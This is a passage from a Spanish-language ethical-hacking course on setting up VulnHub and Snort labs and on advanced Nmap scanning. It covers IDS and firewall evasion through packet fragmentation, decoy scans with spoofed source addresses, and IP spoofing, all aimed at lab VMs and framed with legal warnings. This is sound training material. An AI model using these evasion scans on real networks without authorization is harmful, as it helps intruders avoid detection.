

| **Inicio**         | **Siguiente 2**                                           |
| ------------------ | --------------------------------------------------------- |
| [🏠](../README.md) | [⏩](./5_2_Hacking_Etico_en_Entornos_Active_Directory.md) |

---

## **Índice**

| Temario                                                                                                        |
| -------------------------------------------------------------------------------------------------------------- |
| [270. Preparación del entorno: VulnHub](#270-preparación-del-entorno-vulnhub)                                  |
| [271. Preparación del entorno: Snort](#271-preparación-del-entorno-snort)                                      |
| [272. Escaneo avanzado de Hosts](#272-escaneo-avanzado-de-hosts)                                               |
| [273. Escaneo avanzado de puertos](#273-escaneo-avanzado-de-puertos)                                           |
| [274. Fragmentación de paquetes con Nmap](#274-fragmentación-de-paquetes-con-nmap)                             |
| [275. Escaneo utilizando señuelos con Nmap](#275-escaneo-utilizando-señuelos-con-nmap)                         |
| [276. Spoofing de la identididad del atacante con Nmap](#276-spoofing-de-la-identididad-del-atacante-con-nmap) |
| [277. Control de la velocidad de escaneo con Nmap](#277-control-de-la-velocidad-de-escaneo-con-nmap)           |
| [278. Escaneos en IPv6 con Nmap](#278-escaneos-en-ipv6-con-nmap)                                               |
| [279. Escaneo avanzado de servicios y SO](#279-escaneo-avanzado-de-servicios-y-so)                             |
| [280. Alternativas a Nmap: Naabu y Netcat](#280-alternativas-a-nmap-naabu-y-netcat)                            |
| [281. Escaneo de puertos ultrarrápido: Masscan](#281-escaneo-de-puertos-ultrarrápido-masscan)                  |

| [282. Resolución de la máquina Tr0ll1](#282-resolución-de-la-máquina-tr0ll1) |

---

# **Recopilacion avanzada de informacion**

## **270. Preparación del entorno: VulnHub**

### 🧠 ¿Qué es VulnHub?

**[VulnHub](https://www.vulnhub.com/)** es una plataforma gratuita donde puedes descargar **máquinas virtuales vulnerables** (archivos `.ova` o `.vmdk`) para practicar **hacking ético y pentesting** en un entorno **cerrado y legal**.

✅ Son ideales para:

- Aprender sobre ciberseguridad.
- Prepararte para certificaciones (como OSCP).
- Practicar técnicas reales sin romper la ley.

---

### 🛠️ ¿Qué necesitas para empezar?

#### ✅ 1. VirtualBox (gratis)

Es un software de virtualización para correr máquinas virtuales.

📥 Descarga: [https://www.virtualbox.org/](https://www.virtualbox.org/)

> Alternativa: VMware Workstation (más avanzado, pero requiere licencia si no es Player).

---

#### ✅ 2. Kali Linux o Parrot OS

Necesitas un sistema con herramientas de hacking instaladas, como:

- `nmap`, `hydra`, `gobuster`, `metasploit`, etc.

📥 Puedes descargar Kali como:

- Máquina virtual lista: [https://www.kali.org/get-kali/#kali-virtual-machines](https://www.kali.org/get-kali/#kali-virtual-machines)
- O instalarlo tú mismo.

---

#### ✅ 3. Máquina vulnerable desde VulnHub

Ve a: [https://www.vulnhub.com/](https://www.vulnhub.com/)

- Elige una máquina (por ejemplo: **Mr. Robot**, **Basic Pentesting: 1**, **DC: 1**, etc.).
- Descarga el archivo `.ova` o `.zip`.

---

### 🔧 Cómo preparar tu entorno paso a paso

#### 🚀 Paso 1: Instala VirtualBox

- Ejecuta el instalador, acepta las opciones por defecto.
- Abre VirtualBox y verifica que funciona.

---

#### 🐧 Paso 2: Importa Kali Linux

- Ve a **Archivo > Importar servicio virtualizado**.
- Selecciona el `.ova` de Kali y haz clic en **Importar**.

---

#### 💣 Paso 3: Importa la máquina vulnerable

- Haz lo mismo con la máquina descargada de VulnHub.
- Al finalizar, tendrás **dos máquinas**: Kali (ataque) y la máquina víctima.

---

#### 🌐 Paso 4: Configura la red (muy importante)

##### Usa **Red interna** o **Red NAT con adaptador puente**.

##### Opción A: Red Interna (segura y cerrada)

1. Apaga ambas máquinas.
2. En **Configuración > Red**:

   - Elige **Adaptador 1 > Habilitado > Red Interna**.
   - Escribe un nombre como `vulnhub-net`.

✅ Esto crea una red privada solo entre Kali y la víctima (sin Internet, pero segura).

##### Opción B: Adaptador puente (tu red LAN real)

- Ambos dispositivos estarán en la red de tu casa/oficina.
- Puedes hacer escaneos reales, pero ⚠️ asegúrate de no afectar otros dispositivos.

---

#### 🔍 Paso 5: Encuentra la IP de la víctima

Arranca ambas máquinas.

En Kali, abre una terminal y ejecuta:

```bash
ip a  # te muestra tu IP local
```

Ahora escanea la red para encontrar la máquina víctima:

```bash
nmap -sn 192.168.1.0/24
```

(Sustituye `192.168.1.0/24` por tu rango de red).

---

### 🐾 Ejemplo completo: Mr. Robot (de VulnHub)

#### 🎯 Objetivo: Obtener acceso root en la máquina "Mr. Robot"

1. Descarga desde: [https://www.vulnhub.com/entry/mr-robot-1,151/](https://www.vulnhub.com/entry/mr-robot-1,151/)
2. Importa en VirtualBox.
3. Configura red interna con Kali.
4. Encuentra IP con `nmap`.
5. Escanea puertos:

```bash
nmap -sS -sV 192.168.56.101
```

6. Descubre servicios (ej: Apache, FTP).
7. Busca rutas ocultas con `gobuster`:

```bash
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt
```

8. Explota vulnerabilidades, sube shell, consigue acceso.

---

### 🛡️ Consejos de seguridad

- **Nunca conectes una máquina vulnerable a tu red principal sin protección**.
- **No uses máquinas VulnHub en la nube ni en redes empresariales.**
- Usa **instantáneas** para volver al punto de partida fácilmente.

---

### 📦 Herramientas comunes que debes conocer

| Herramienta  | Uso                            |
| ------------ | ------------------------------ |
| `nmap`       | Escaneo de red y puertos       |
| `gobuster`   | Enumeración de rutas web       |
| `hydra`      | Ataques de fuerza bruta        |
| `netcat`     | Shells reversas                |
| `burpsuite`  | Manipulación de peticiones web |
| `msfconsole` | Framework de explotación       |

---

### ✅ Resumen

| Paso | Acción                                   |
| ---- | ---------------------------------------- |
| 1.   | Instala VirtualBox                       |
| 2.   | Descarga Kali y una máquina vulnerable   |
| 3.   | Configura red interna o puente           |
| 4.   | Encuentra la IP de la víctima con `nmap` |
| 5.   | Comienza el pentesting                   |

---

[🔼](#índice)

---

## **271. Preparación del entorno: Snort**

### 🧠 ¿Qué es Snort?

**Snort** es un sistema de **detección de intrusos** (IDS – _Intrusion Detection System_) de código abierto.
Analiza el tráfico de red en tiempo real y detecta actividades maliciosas como:

- Escaneos de puertos
- Ataques de denegación de servicio (DoS)
- Intentos de explotación
- Malware en tránsito

Snort puede:

- **Detectar** tráfico sospechoso (modo IDS)
- **Registrar** paquetes de red (modo sniffer)
- **Prevenir** ataques si se usa con un firewall (modo IPS)

---

### 🛠️ Requisitos para instalar Snort

Puedes usar Snort en:

- **Linux (Ubuntu, Kali, Debian, etc.)** ✅ Recomendado
- **Windows** (no recomendado para producción)

---

### 📥 Instalación de Snort en Linux (Ubuntu / Kali)

#### 🔧 Paso 1: Instala dependencias

```bash
sudo apt update
sudo apt install -y build-essential libpcap-dev libpcre3-dev libdumbnet-dev bison flex zlib1g-dev liblzma-dev openssl libssl-dev
```

#### 🔧 Paso 2: Instala herramientas adicionales

```bash
sudo apt install -y libnghttp2-dev libpcap0.8-dev pkg-config libtool autoconf
```

#### 🔧 Paso 3: Crea carpetas de trabajo

```bash
mkdir ~/snort_src && cd ~/snort_src
```

#### 🔧 Paso 4: Descarga Snort

Ve a: [https://www.snort.org/downloads](https://www.snort.org/downloads)
Y copia el enlace del último tar.gz de Snort. Por ejemplo:

```bash
wget https://www.snort.org/downloads/snort/snort-2.9.20.tar.gz
tar -xvzf snort-2.9.20.tar.gz
cd snort-2.9.20
```

#### 🔧 Paso 5: Compila e instala

```bash
./configure --enable-sourcefire
make
sudo make install
```

#### 🔧 Paso 6: Verifica la instalación

```bash
snort -V
```

Deberías ver la versión de Snort instalada ✅

---

#### 📁 Paso 7: Crear la estructura de directorios de configuración

```bash
sudo mkdir -p /etc/snort/rules
sudo mkdir /var/log/snort
sudo mkdir /usr/local/lib/snort_dynamicrules
```

Copia archivos de ejemplo:

```bash
sudo cp etc/*.conf* /etc/snort
sudo cp etc/*.map /etc/snort
```

---

#### 🔐 Paso 8: Agrega una regla personalizada de ejemplo

Edita el archivo de reglas local:

```bash
sudo nano /etc/snort/rules/local.rules
```

Agrega esta regla simple:

```snort
alert icmp any any -> any any (msg:"Ping detectado"; sid:1000001; rev:1;)
```

Esto hará que Snort alerte cada vez que detecte un **ping (ICMP)**.

---

#### ⚙️ Paso 9: Edita el archivo de configuración principal

```bash
sudo nano /etc/snort/snort.conf
```

Asegúrate de que estas líneas apunten bien:

```conf
var RULE_PATH /etc/snort/rules
include $RULE_PATH/local.rules
```

---

### 🚀 Ejemplo: Probar Snort en modo IDS

#### Abre una terminal para correr Snort:

```bash
sudo snort -A console -q -c /etc/snort/snort.conf -i eth0
```

- `-A console`: salida por consola
- `-q`: modo silencioso (sin banners)
- `-c`: archivo de configuración
- `-i`: interfaz de red (ajusta a tu red, puede ser `eth0`, `enp0s3`, `wlan0`, etc.)

---

#### En otra terminal, haz un ping para probar

```bash
ping 8.8.8.8
```

✅ Si todo funciona, Snort debería mostrar una alerta como:

```
[**] [1:1000001:1] Ping detectado [**]
```

---

### ✅ Resumen

| Paso | Acción                                    |
| ---- | ----------------------------------------- |
| 1.   | Instala dependencias                      |
| 2.   | Descarga y compila Snort                  |
| 3.   | Crea carpetas y configura reglas          |
| 4.   | Agrega reglas personalizadas              |
| 5.   | Ejecuta Snort y prueba con tráfico (ping) |

---

### 🧪 ¿Qué más puedes hacer con Snort?

- Analizar archivos `.pcap`
- Detectar escaneos con `nmap`
- Integrarlo con SIEM (como Splunk)
- Usarlo junto con `iptables` para prevención (IPS)
- Crear reglas más complejas para detectar patrones HTTP, DNS, FTP, etc.

---

### 📦 Ejemplo completo (copiar y pegar en una máquina Kali)

```bash
sudo apt update && sudo apt install -y build-essential libpcap-dev libpcre3-dev libdumbnet-dev bison flex zlib1g-dev liblzma-dev openssl libssl-dev

mkdir ~/snort_src && cd ~/snort_src
wget https://www.snort.org/downloads/snort/snort-2.9.20.tar.gz
tar -xvzf snort-2.9.20.tar.gz && cd snort-2.9.20
./configure --enable-sourcefire
make && sudo make install
snort -V

sudo mkdir -p /etc/snort/rules /var/log/snort /usr/local/lib/snort_dynamicrules
sudo cp etc/*.conf* /etc/snort
sudo cp etc/*.map /etc/snort

echo 'alert icmp any any -> any any (msg:"Ping detectado"; sid:1000001; rev:1;)' | sudo tee /etc/snort/rules/local.rules

sudo sed -i 's|^# include \$RULE_PATH/local.rules|include \$RULE_PATH/local.rules|' /etc/snort/snort.conf

sudo snort -A console -q -c /etc/snort/snort.conf -i eth0
```

> ⚠️ Reemplaza `eth0` por tu interfaz real (puedes verlas con `ip a`).

---

[🔼](#índice)

---

## **272. Escaneo avanzado de Hosts**

### 🧠 ¿Qué es el escaneo de hosts?

El **escaneo de hosts** es el proceso de descubrir **dispositivos activos** en una red y analizar qué **servicios, puertos o vulnerabilidades** están expuestos.

🛠️ El objetivo principal es:

- Ver qué computadoras están conectadas a una red.
- Saber qué puertos tienen abiertos.
- Identificar sistemas operativos y servicios.
- Detectar posibles vulnerabilidades.

---

### 🧰 Herramienta principal: **Nmap**

**Nmap** (Network Mapper) es una de las herramientas más potentes para escaneo de redes.

📦 Puedes hacer con Nmap:

- Descubrimiento de hosts
- Escaneo de puertos (TCP, UDP)
- Detección de sistema operativo
- Detección de servicios y versiones
- Escaneo con scripts NSE (Nmap Scripting Engine)

---

### 🖥️ Instalación de Nmap

#### 🔹 En Linux (Ubuntu, Kali, Debian, etc.)

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 En MacOS

Usa Homebrew:

```bash
brew install nmap
```

#### 🔹 En Windows

1. Descarga desde: [https://nmap.org/download.html](https://nmap.org/download.html)
2. Elige el instalador "self-installer" para Windows.
3. Asegúrate de que el instalador incluya Zenmap (opcional, interfaz gráfica).

---

### 🛠️ Escaneo básico vs avanzado

| Tipo de escaneo           | Comando                   | Qué hace                              |
| ------------------------- | ------------------------- | ------------------------------------- |
| Ping scan (hosts activos) | `nmap -sn 192.168.1.0/24` | Detecta qué hosts están vivos         |
| Escaneo de puertos        | `nmap -p- 192.168.1.1`    | Escanea todos los puertos             |
| Descubre servicios        | `nmap -sV 192.168.1.1`    | Detecta versiones de servicios        |
| Detección de SO           | `nmap -O 192.168.1.1`     | Estima el sistema operativo           |
| Escaneo con scripts       | `nmap -sC 192.168.1.1`    | Usa scripts NSE por defecto           |
| Escaneo agresivo          | `nmap -A 192.168.1.1`     | Todo: OS, versiones, traceroute y más |

---

### 🔬 Ejemplos fáciles de entender

#### 🧪 1. Escaneo para encontrar hosts activos

```bash
nmap -sn 192.168.1.0/24
```

🔍 Esto envía pings para ver qué IPs están activas.

---

#### 🧪 2. Escaneo de puertos abiertos

```bash
nmap -p 22,80,443 192.168.1.5
```

📌 Verifica si los puertos 22 (SSH), 80 (HTTP), 443 (HTTPS) están abiertos.

---

#### 🧪 3. Escaneo de todos los puertos

```bash
nmap -p- 192.168.1.5
```

🔍 Escanea del puerto 1 al 65535.

---

#### 🧪 4. Escaneo con detección de versión de servicios

```bash
nmap -sV 192.168.1.5
```

👁️ Muestra qué servicios están corriendo y su versión (ej: Apache 2.4.41).

---

#### 🧪 5. Escaneo completo (avanzado)

```bash
nmap -A -T4 192.168.1.5
```

Incluye:

- Detección de SO
- Script scanning
- Detección de versiones
- Traceroute

---

#### 🧪 6. Escaneo silencioso (para evitar detección)

```bash
nmap -sS -Pn 192.168.1.5
```

- `-sS`: escaneo SYN (semiabierto, más difícil de detectar)
- `-Pn`: sin ping (actúa como si el host estuviera activo)

---

### 📘 Ejemplo completo paso a paso

#### 🎯 Escenario:

- Tu Kali Linux está en una red con IP `192.168.56.101`.
- Quieres analizar la máquina víctima con IP `192.168.56.102`.

---

#### 🔍 Paso 1: Ver qué hosts están activos

```bash
nmap -sn 192.168.56.0/24
```

➡️ Resultado:

```txt
Nmap scan report for 192.168.56.102
Host is up (0.00024s latency).
```

---

#### 📖 Paso 2: Ver qué puertos están abiertos

```bash
nmap -p- 192.168.56.102
```

➡️ Resultado:

```txt
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

---

#### 🧠 Paso 3: Detectar versiones de servicios

```bash
nmap -sV 192.168.56.102
```

➡️ Resultado:

```txt
22/tcp open  ssh    OpenSSH 7.9p1 Debian 10
80/tcp open  http   Apache httpd 2.4.38
3306/tcp open  mysql MySQL 5.7.29
```

---

#### 🤖 Paso 4: Escaneo completo con scripts NSE

```bash
nmap -A -T4 192.168.56.102
```

Incluye:

- SO estimado
- Banner grabbing
- Script analysis (como detectar login por defecto)

---

### 🛡️ Recomendaciones de uso

- Siempre haz pruebas en redes controladas o en laboratorios (como VulnHub, Hack The Box).
- No escanees redes sin permiso (es ilegal en muchos países).
- Usa Wireshark o tcpdump para complementar la captura del tráfico.

---

### 📌 Bonus: Zenmap (interfaz gráfica de Nmap)

Si estás en Windows o quieres algo visual, puedes usar **Zenmap**:

- Misma funcionalidad que Nmap, pero con botones y visualizaciones.
- Muestra gráficos de puertos, hosts activos y puedes guardar perfiles.

Instalable desde: [https://nmap.org/zenmap/](https://nmap.org/zenmap/)

---

### ✅ Resumen

| Acción                     | Comando                   |
| -------------------------- | ------------------------- |
| Buscar hosts activos       | `nmap -sn 192.168.1.0/24` |
| Escanear todos los puertos | `nmap -p- IP`             |
| Detección de versiones     | `nmap -sV IP`             |
| Escaneo avanzado           | `nmap -A -T4 IP`          |
| Escaneo silencioso         | `nmap -sS -Pn IP`         |

---

[🔼](#índice)

---

## **273. Escaneo avanzado de puertos**

### 🧠 ¿Qué es el escaneo de puertos?

El **escaneo de puertos** es una técnica para descubrir **qué servicios o aplicaciones están corriendo** en un dispositivo de red (host) observando qué puertos están **abiertos**, **cerrados** o **filtrados**.

📌 **Un puerto abierto = una puerta de entrada** que podría usarse para acceder a un sistema.

---

### 🚀 ¿Para qué sirve el escaneo avanzado de puertos?

- Identificar servicios vulnerables.
- Ver qué software está corriendo (y su versión).
- Detectar configuraciones incorrectas.
- Preparar ataques en pentesting (o prevenirlos si eres sysadmin).

---

### 🔧 Herramienta principal: **Nmap**

La herramienta por excelencia para escaneo de puertos es **Nmap**.

#### ✅ ¿Qué puede hacer Nmap a nivel avanzado?

- Escanear **todos** los puertos (1 al 65535)
- Detectar **versiones** de servicios
- Detectar **sistema operativo**
- Usar **scripts NSE** para enumerar servicios
- Hacer escaneos **evasivos** (evitar detección por firewall)

---

### 🛠️ Instalación de Nmap

#### 🔹 En Kali, Ubuntu o Debian

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 En MacOS

```bash
brew install nmap
```

#### 🔹 En Windows

Descargar desde [nmap.org/download.html](https://nmap.org/download.html)
Elige el instalador que incluye **Zenmap** (GUI opcional).

---

### 🧪 Tipos de escaneo de puertos (explicado con ejemplos)

| Tipo de escaneo           | Comando       | Explicación                             |
| ------------------------- | ------------- | --------------------------------------- |
| Escaneo rápido            | `nmap IP`     | Escanea los 1000 puertos más comunes    |
| Todos los puertos         | `nmap -p- IP` | Escanea del puerto 1 al 65535           |
| Escaneo de puertos UDP    | `nmap -sU IP` | Escanea puertos UDP (más lento)         |
| Escaneo de versión        | `nmap -sV IP` | Detecta versiones de servicios          |
| Escaneo "sigiloso"        | `nmap -sS IP` | Escaneo SYN (más evasivo, semi-abierto) |
| Escaneo completo agresivo | `nmap -A IP`  | OS, servicios, traceroute, scripts NSE  |

---

### 🧠 ¿Qué es un puerto?

- Un **puerto** es una puerta de comunicación dentro de un equipo.
- Se representan con números entre 1 y 65535.
- Ejemplos:

  - 22 → SSH
  - 80 → HTTP
  - 443 → HTTPS
  - 3306 → MySQL

---

### 🧰 Comandos clave explicados

#### 🔹 Escaneo de todos los puertos TCP (detallado)

```bash
nmap -p- 192.168.56.102
```

- `-p-`: escanea todos los puertos del 1 al 65535

---

#### 🔹 Detección de versión de servicios

```bash
nmap -sV -p 22,80,443 192.168.56.102
```

- `-sV`: identifica versiones de servicios
- `-p`: define puertos específicos

---

#### 🔹 Escaneo agresivo completo

```bash
nmap -A 192.168.56.102
```

- Incluye detección de:

  - Sistema operativo
  - Versiones de servicios
  - Script NSE por defecto
  - Traceroute

---

#### 🔹 Escaneo sigiloso (menos detectable)

```bash
nmap -sS -T2 -Pn 192.168.56.102
```

- `-sS`: escaneo SYN stealth
- `-T2`: velocidad lenta (más evasivo)
- `-Pn`: no hace ping, asume que el host está vivo

---

### 🔬 Escaneo UDP (más avanzado)

```bash
nmap -sU -p 53,161 192.168.56.102
```

- `-sU`: escaneo UDP
- Puerto 53 = DNS, 161 = SNMP

> ⚠️ UDP es más lento y puede tener falsos positivos. Usar solo si sabes qué buscar.

---

### 📘 Ejemplo completo paso a paso

#### 🎯 Escenario:

Tu IP atacante: `192.168.56.101`
IP víctima: `192.168.56.102` (una máquina VulnHub o Hack The Box)

---

#### 🧩 Paso 1: Ver si el host está activo

```bash
nmap -sn 192.168.56.0/24
```

Resultado:

```txt
Nmap scan report for 192.168.56.102
Host is up (0.00044s latency).
```

---

#### 🧩 Paso 2: Escanear todos los puertos

```bash
nmap -p- 192.168.56.102
```

Resultado:

```txt
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

---

#### 🧩 Paso 3: Ver versiones de servicios

```bash
nmap -sV -p 22,80,3306 192.168.56.102
```

Resultado:

```txt
22/tcp   open  ssh    OpenSSH 7.4p1 Debian
80/tcp   open  http   Apache httpd 2.4.25
3306/tcp open  mysql  MySQL 5.7.19
```

---

#### 🧩 Paso 4: Escaneo avanzado con scripts

```bash
nmap -A 192.168.56.102
```

Incluye:

- OS detection
- Script NSE
- Traceroute

---

### 🛡️ Consejos prácticos

- No escanees redes sin autorización (es ilegal).
- Combina Nmap con Wireshark o tcpdump si quieres ver el tráfico.
- Usa VulnHub, TryHackMe o Hack The Box para practicar legalmente.

---

[🔼](#índice)

---

## **274. Fragmentación de paquetes con Nmap**

### 🧠 ¿Qué es la fragmentación de paquetes?

La **fragmentación de paquetes en Nmap** es una técnica que divide los paquetes de red en **fragmentos más pequeños** durante el escaneo.

🔐 ¿Por qué hacer esto?

> Para **evadir firewalls, IDS (Sistemas de Detección de Intrusos)** o reglas que analizan paquetes.

#### Analogía fácil:

Imagina que el firewall es un portero que solo lee paquetes grandes para ver si algo sospechoso entra. Si partes el mensaje en trocitos muy pequeños, puede que no los detecte porque los ve incompletos o inofensivos.

---

### 🎯 ¿Cuándo se usa la fragmentación?

- En pruebas de **penetración**.
- Cuando un firewall bloquea escaneos normales.
- Para confundir o evitar detección por parte de EDR/IDS.

---

### 🛠️ ¿Cómo se instala Nmap?

#### 🔹 En Kali Linux / Ubuntu / Debian

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 En MacOS

```bash
brew install nmap
```

#### 🔹 En Windows

1. Descarga desde: [https://nmap.org/download.html](https://nmap.org/download.html)
2. Instálalo con el instalador (incluye Zenmap si deseas GUI).

---

### ⚙️ ¿Cómo se usa la fragmentación en Nmap?

Se usa el parámetro:

```bash
-f
```

Esto fragmenta los paquetes IP en fragmentos de **8 bytes**.

También puedes usar:

```bash
--mtu [valor]
```

Que fragmenta los paquetes en múltiplos personalizados de bytes (16, 32, 24, 8, etc).

---

### 🔑 Comandos con ejemplos

#### 🔹 1. Escaneo simple con fragmentación

```bash
nmap -f 192.168.1.10
```

Esto fragmenta los paquetes IP por defecto en 8 bytes.

---

#### 🔹 2. Escaneo SYN (más evasivo) + fragmentación

```bash
nmap -sS -f 192.168.1.10
```

Usa el escaneo SYN (sigiloso) **combinado** con fragmentación.

---

#### 🔹 3. Fragmentación personalizada con MTU

```bash
nmap --mtu 24 192.168.1.10
```

Esto fuerza los paquetes a fragmentarse en múltiplos de 24 bytes.

---

#### 🔹 4. Escaneo más completo con fragmentación

```bash
nmap -sS -sV -f -Pn 192.168.1.10
```

Esto:

- `-sS`: Escaneo SYN
- `-sV`: Detección de versión
- `-f`: Fragmenta paquetes
- `-Pn`: No hace ping (asume que el host está vivo)

---

### 🚨 Advertencia

- Algunos firewalls modernos ya detectan fragmentación como comportamiento sospechoso.
- **No uses esta técnica en redes que no son tuyas**. Escanear sin permiso es **ilegal** en muchos países.

---

### 📘 Ejemplo completo paso a paso

#### 🎯 Escenario

Estás en Kali Linux. Tienes una máquina virtual víctima con IP: `192.168.56.102`.

Quieres escanearla usando fragmentación para evadir detección de su firewall.

---

#### 🧩 Paso 1: Ver si el host está activo

```bash
nmap -sn 192.168.56.0/24
```

Resultado:

```txt
Nmap scan report for 192.168.56.102
Host is up.
```

---

#### 🧩 Paso 2: Escaneo SYN con fragmentación

```bash
nmap -sS -f -Pn 192.168.56.102
```

Esto envía paquetes fragmentados para evitar detección.

Resultado:

```txt
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
```

---

#### 🧩 Paso 3: Escaneo de versiones con fragmentación personalizada

```bash
nmap -sV --mtu 24 192.168.56.102
```

Resultado:

```txt
22/tcp open ssh OpenSSH 7.9
80/tcp open http Apache httpd 2.4.38
```

---

### 📌 Resumen de opciones útiles

| Opción     | Significado                             |
| ---------- | --------------------------------------- |
| `-f`       | Fragmentar paquetes IP (en 8 bytes)     |
| `--mtu 24` | Fragmentar usando múltiples de 24 bytes |
| `-sS`      | Escaneo SYN (stealth)                   |
| `-Pn`      | Omite el ping                           |
| `-sV`      | Detectar versión de servicios           |

---

### ✅ Conclusión

- La fragmentación de paquetes es una técnica para **evadir detección de seguridad**.
- Se usa en auditorías o pentesting **avanzado**.
- Es fácil de aplicar con Nmap con la opción `-f` o `--mtu`.
- No debe usarse en redes ajenas sin permiso.

---

[🔼](#índice)

---

## **275. Escaneo utilizando señuelos con Nmap**

### 🧠 ¿Qué es un escaneo con señuelos en Nmap?

Es una técnica para **ocultar la identidad real** del atacante durante un escaneo, **simulando que varias IPs están escaneando al mismo tiempo**.

Esto se logra enviando paquetes **falsificados (spoofed)** con IPs señuelo (decoy) junto con los de tu IP real.

> 🕵️‍♂️ **Objetivo:** confundir al firewall o IDS/IPS del objetivo para que **no sepa quién fue el atacante real**.

---

### 📌 ¿Para qué sirve?

- Evasión de detección en sistemas de defensa.
- Ocultar la IP real del atacante en los logs.
- Realizar pentesting de forma más sigilosa.

---

### 🔧 ¿Cómo se instala Nmap?

#### 🔹 En Kali / Ubuntu / Debian

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 En MacOS

```bash
brew install nmap
```

#### 🔹 En Windows

1. Descargar desde: [https://nmap.org/download.html](https://nmap.org/download.html)
2. Instalar (opcional: incluir **Zenmap**, la interfaz gráfica).

---

### 🧪 ¿Cómo funciona el escaneo con señuelos?

Usamos la opción:

```bash
-D <decoy1>,<decoy2>,...,ME
```

- `-D`: Inicia el modo señuelo.
- `ME`: Representa **tu IP real**.
- Las otras IPs son **señuelos falsos** (spoofed IPs).
- Si no incluyes `ME`, Nmap no enviará paquetes reales desde tu IP.

---

### 🧰 Ejemplos básicos

#### 🔹 1. Escaneo con 3 señuelos

```bash
nmap -sS -D 1.2.3.4,5.6.7.8,9.10.11.12,ME 192.168.56.102
```

- Nmap enviará paquetes como si vinieran de:

  - `1.2.3.4`
  - `5.6.7.8`
  - `9.10.11.12`
  - tu IP real

🧠 Resultado: en los logs del servidor escaneado, **verán tráfico de 4 IPs** y no sabrán cuál es la real.

---

#### 🔹 2. Escaneo más evasivo + señuelos

```bash
nmap -sS -Pn -D RND:10 192.168.56.102
```

- `-sS`: escaneo SYN (stealth)
- `-Pn`: no hace ping (evita ser bloqueado)
- `-D RND:10`: genera 10 IPs aleatorias como señuelos

🛑 ⚠️ Con `RND`, podrías generar IPs que **no existen** o incluso internas. Úsalo con cuidado.

---

#### 🔹 3. Escaneo con versión de servicios + señuelos

```bash
nmap -sS -sV -D 203.0.113.1,198.51.100.5,ME 192.168.56.102
```

- `-sV`: detecta versiones de servicios
- `-D`: usa dos señuelos + tu IP

---

### 🔬 ¿Qué ocurre en los logs del servidor escaneado?

Si el servidor está protegido por un IDS como Snort, Suricata o un firewall con logging, verá algo así:

```txt
Connection attempt from 1.2.3.4
Connection attempt from 5.6.7.8
Connection attempt from 192.168.1.20
Connection attempt from 9.10.11.12
```

🛡️ Pero no sabrá cuál fue **el verdadero atacante** (en este ejemplo: `192.168.1.20`).

---

### 📘 Ejemplo completo paso a paso

#### 🎯 Escenario

- Atacante (Kali): `192.168.56.101`
- Víctima (máquina VulnHub): `192.168.56.102`
- Señuelos: `8.8.8.8`, `1.1.1.1`, `203.0.113.10`

---

#### 🧩 Paso 1: Confirmar que la víctima está activa

```bash
nmap -sn 192.168.56.0/24
```

> Verifica que `192.168.56.102` está **activo**.

---

#### 🧩 Paso 2: Ejecutar escaneo con señuelos

```bash
nmap -sS -p 22,80,3306 -D 8.8.8.8,1.1.1.1,203.0.113.10,ME 192.168.56.102
```

Esto escaneará los puertos:

- 22 (SSH)
- 80 (HTTP)
- 3306 (MySQL)

🚨 Los paquetes llegarán como si vinieran de **4 fuentes distintas**, incluyendo tu IP.

---

#### 🧩 Paso 3: Revisar resultados

```txt
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

✅ Escaneo exitoso y más sigiloso.

---

### 🛡️ Consejos éticos y legales

- No escanees redes ajenas sin permiso. Es **ilegal** en muchos países.
- Usa máquinas virtuales como **VulnHub**, **TryHackMe**, o **Hack The Box** para practicar.
- Esta técnica se usa con fines de **auditoría y seguridad defensiva**.

---

### ✅ Resumen

| Opción  | Descripción                                   |
| ------- | --------------------------------------------- |
| `-D`    | Activa escaneo con señuelos                   |
| `ME`    | Indica tu IP real                             |
| `RND:n` | Genera n IPs aleatorias como señuelos         |
| `-sS`   | Escaneo SYN (sigiloso)                        |
| `-Pn`   | Evita el ping (asume que el host está activo) |

---

[🔼](#índice)

---

## **276. Spoofing de la identididad del atacante con Nmap**

### 🧠 ¿Qué es el "spoofing de identidad del atacante"?

El **IP spoofing** (suplantación de identidad IP) consiste en **falsificar la dirección IP de origen** de un paquete para que parezca que proviene de otra máquina (no la tuya).

#### En el contexto de Nmap:

> Puedes hacer que parezca que otro host está haciendo el escaneo, **ocultando tu dirección IP real**.

🎯 Esto se hace con la opción `-S` de Nmap para especificar la IP de origen **falsificada**.

---

### ⚠️ Importante

El spoofing **NO es lo mismo que señuelos** con `-D` (donde Nmap envía paquetes desde varias IPs con tu IP real incluida).
Aquí, con `-S`, estás directamente **suplantando la IP de origen**, lo que significa que **NO recibirás respuestas** a menos que controles esa IP.

---

